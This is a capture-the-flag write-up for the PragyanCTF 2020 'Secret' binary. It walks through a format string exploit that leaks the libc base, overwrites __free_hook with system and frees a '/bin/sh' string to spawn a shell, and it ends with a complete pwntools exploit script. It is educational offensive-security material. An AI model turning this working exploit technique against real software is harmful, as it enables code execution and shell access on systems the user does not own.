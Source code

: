 ```yaml
---
title: '[PragyanCTF 2020] Secret'
published: true
author: Christos.S
---
```



This is a very good challange to polish and/or improve your `format string` skills. But since the CTF's server got hacked and couldn't exploit their server, I tried to at least write an exploit for the program locally with `libc 2.30`.

I first checked what security features are enabled in the binary.

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

I then opened the binary in [Ghidra](https://ghidra-sre.org/) and started looking through the decompiled code.
After some time looking through the code, I found what I was looking for... A vulnerability I could exploit.

In the function `show_task`, I found this:

```c
    void show_tasks(task *current) {
        printf("\n\nName: %s\n",current->name);
        printf("Date: %s\n",current->num);
        printf("Length: %d\n",current->desc_length);
        printf("Description: ");
        printf(current->desc);
        return;
    }
```

The vulnerable line of code is 
```c
printf(current->desc);
```
with a `format string` vunerability

Then my first thought was to look in the binary symbols for the function `system`; with no success. This led me to believe that I should start the exploit by leaking the `libc base` address.

So now that I have a basic understanding of the binary I can think of the attack:

1. Leak `libc base` address
2. Write the `system` function's address in the `__free_hook`
3. Free an address the points to the string `/bin/sh`

Before I start I created 3 functions to interface with the 3 main functionalities of the binary:
1. Create Task
2. Remove Task
3. Display Tasks

___

## Step 1

I found an address on the stack at the `35th` place which points `249` bytes after the start of `__libc_start_main`

```python
createTask('pwned', '/bin/bash\x00', 10, '%35$x')
libc_start_main = int(re.findall('Description: (.*)', displayTasks())[0], 16) - 249
libc_base = libc_start_main - elf.libc.symbols['__libc_start_main']
```

So after a simple substruction I was able to obtain the `libc base` address

___

## Step 2

This was by far the hardest step in the process. Writing `system`'s address in `__free_hook`. I was not able to just put the address I wanted to overwrite (`__free_hook`) on the the stack because simply my input was never saved on the stack; it went straight onto the heap. So my next option was to find an address on the stack (`2nd` place) that points to another address on the stack (`9th` place). 

Since the address that I wanted to overwrite (`9th` place) on the stack had a chance to have the same highest 2 bytes as the `__free_hooks`, I just written the lowest 2 bytes.

```python
createTask('AAAA', 'BBBB', 0xffff, 'A' * (free_hook & 0x0000ffff) + '%2$hn')
```

Then because I couldn't just write that huge of a number (address of `system`) in one go, I split it into 2 seperate writes. In the first one I wrote the lowest 2 bytes of `system`, changed the address I had on the stack to point 2 bytes forword so I was able to write the highest 2 bytes of `system` in the `__free_hook`

```python
createTask('DDDD', 'EEEE', 0xffff, 'A' * (system_libc & 0x0000ffff) + '%9$hn')
createTask('FFFF', 'GGGG', 200, 'A' * ((free_hook & 0x000000ff) + 2) + '%2$hhn')
createTask('HHHH', 'IIII', 0xffff, 'A' * ((system_libc & 0xffff0000) >> 16) + '%9$hn')
```

After all this I triggered the the `format string exploit` with `displayTasks()`.

___

## Step 3 

What is now left to do is just free an address that has the string `/bin/sh` written in it. Luckly in the `remove_task` function,

```c
memset(task_ptr->name,0,0x40);
task_ptr->enabled = 0;
task_ptr->desc_length = 0;
free(task_ptr->num);
free(task_ptr->desc);
printf("Removed %s",removename);
```
the first thing that is freed is the `num` field of the `task structure` which is the `date` that is asked when creating a task.

The 1st task I created had `/bin/sh` in the `date` or `num` field, so as soon as that is freed, `system` will be executed with `/bin/sh` giving us a shell!!

```python
removeTask('pwned')
```

---

Below is the full `xpl.py` script:

```python
#!/usr/bin/python
from pwn import *
import re

context.terminal = ['tmux', 'splitw', '-h']

elf = ELF('./task')

gdbscript = '''
init-gef
c
'''

def start():
	if args.GDB: return gdb.debug(elf.path, gdbscript)
	else: return process(elf.path)

io = start()

def createTask(name, date, descLen, desc):
	io.sendlineafter(':', '1')
	io.sendlineafter(':', name)
	io.sendlineafter(':', date)
	io.sendlineafter(':', str(descLen))
	io.sendlineafter(':', desc)

def removeTask(name):
	io.sendlineafter(':', '2')
	io.sendlineafter(':', name)

def displayTasks():
	io.sendlineafter(':', '3')
	return io.recvuntil('1.')[:-2]

# Leak libc base address
createTask('pwned', '/bin/bash\x00', 10, '%35$x')
libc_start_main = int(re.findall('Description: (.*)', displayTasks())[0], 16) - 249
libc_base = libc_start_main - elf.libc.symbols['__libc_start_main']

log.success('libc_start_main: 0x%x' % libc_start_main)
log.success('libc base: 0x%x' % libc_base)

# Overide __free_hook with system
system_libc = libc_base + elf.libc.symbols['system']
free_hook = libc_base + elf.libc.symbols['__free_hook']

log.success('system: 0x%x' % system_libc)
log.success('__free_hook: 0x%x' % (free_hook))

# Write __free_hook addr on the stack
createTask('AAAA', 'BBBB', 0xffff, 'A' * (free_hook & 0x0000ffff) + '%2$hn')

log.success("Ready to overwrite __free_hook")

createTask('DDDD', 'EEEE', 0xffff, 'A' * (system_libc & 0x0000ffff) + '%9$hn')
createTask('FFFF', 'GGGG', 200, 'A' * ((free_hook & 0x000000ff) + 2) + '%2$hhn')
createTask('HHHH', 'IIII', 0xffff, 'A' * ((system_libc & 0xffff0000) >> 16) + '%9$hn')

displayTasks()

removeTask('pwned')

io.interactive()
```
